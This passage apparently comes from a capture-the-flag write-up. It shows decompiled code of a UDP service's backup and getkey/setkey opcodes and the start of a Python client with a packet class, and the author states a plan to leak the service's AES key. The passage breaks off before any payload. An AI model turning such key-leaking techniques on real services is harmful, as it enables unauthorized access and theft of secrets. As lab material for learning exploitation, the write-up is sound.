     00011138          if (r3_3 == 0x2b)
    00011134          {
    000112bc              strcpy(&var_41c, "backup", r2_1, r3_3);
    000112c8              sub_11bf8(0xa, &var_41c);
    000112d4              *(int16_t*)(r0 + 2) = 0x18;
    000112d8              int32_t r0_23;
    000112d8              r0_23 = sub_10d84(arg1, r0);
    000112e0              if (r0_23 == 0)
    000112dc              {
    000112e0                  r1_2 = "Error in backup";
    000112e0                  goto label_11228;
    000112e0              }
    000112e0          }
    00011120          if (r3_3 != 0x16)
    0001111c          {
    00011124          label_11124:
    00011124              r1_2 = "unknown opcode";
    00011128              goto label_11228;
    00011128          }
    000111f8          strcpy(&var_41c, "getkey/setkey", r2_1, r3_3);
    00011204          sub_11bf8(0xa, &var_41c);
    00011210          *(int16_t*)(r0 + 2) = 0x18;
    00011214          int32_t r0_13;
    00011214          r0_13 = sub_10fe8(arg1, r0);
    0001121c          if (r0_13 == 0)
    00011218          {
    0001121c              r1_2 = "Error in getkey/setkey";
    0001121c              goto label_11228;
    0001121c          }
Where 0x16 and 0x2b are the opcodes.

Let's start writing some code...

    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    address = ("172.18.1.3", 1205)
    s.connect(address)
where SOCK_DGRAM is a datagram-based protocol. You send one datagram and get one reply and then the connection terminates
(remember the service listen on UDP).

Now we need to leak AES_Key, and then use it do the backup.
We need to create a class that will help us sending the packet
```python
class Packet:
		version: int			# uint8_t version;
		opcode: int			# uint8_t opcode;
		suboption: int			# uint8_t opcode2;
    	len: Optional[int] = None	# uint16_t length;
    	unused: int = 0			# uint8_t _pad;
    	magic: int = 0x5848  # b"HX"	# uint16_t magic;
    	h: Optional[bytes] = None	# longlong hash[2];
    	data: bytes = b""               # char payload[400];
```
and our pkt will be something like this:
